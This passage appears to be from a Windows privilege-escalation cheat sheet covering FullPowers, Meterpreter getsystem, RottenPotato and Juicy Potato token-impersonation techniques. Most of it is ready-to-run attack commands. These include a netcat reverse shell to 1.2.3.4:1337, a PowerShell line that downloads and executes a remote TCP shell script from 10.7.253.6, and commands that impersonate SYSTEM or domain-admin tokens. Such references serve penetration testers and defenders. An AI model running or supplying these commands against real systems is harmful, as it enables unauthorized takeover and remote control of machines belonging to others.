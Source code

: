 ```powershell
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled

c:\TOOLS>FullPowers -c "C:\TOOLS\nc64.exe 1.2.3.4 1337 -e cmd" -z
```

### Meterpreter getsystem and alternatives

```powershell
meterpreter> getsystem 
Tokenvator.exe getsystem cmd.exe 
incognito.exe execute -c "NT AUTHORITY\SYSTEM" cmd.exe 
psexec -s -i cmd.exe 
python getsystem.py # from https://github.com/sailay1996/tokenx_privEsc
```

### RottenPotato (Token Impersonation)

* Binary available at : https://github.com/foxglovesec/RottenPotato
* Binary available at : https://github.com/breenmachine/RottenPotatoNG

```c
getuid
getprivs
use incognito
list\_tokens -u
cd c:\temp\
execute -Hc -f ./rot.exe
impersonate\_token "NT AUTHORITY\SYSTEM"
```

```powershell
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"
```


### Juicy Potato (Abusing the golden privileges)

> If the machine is **>= Windows 10 1809 & Windows Server 2019** - Try **Rogue Potato**    
> If the machine is **< Windows 10 1809 < Windows Server 2019** - Try **Juicy Potato**

* Binary available at : https://github.com/ohpe/juicy-potato/releases    

1. Check the privileges of the service account, you should look for **SeImpersonate** and/or **SeAssignPrimaryToken** (Impersonate a client after authentication)

    ```powershell
    whoami /priv
    ```

2. Select a CLSID based on your Windows version, a CLSID is a globally unique identifier that identifies a COM class object
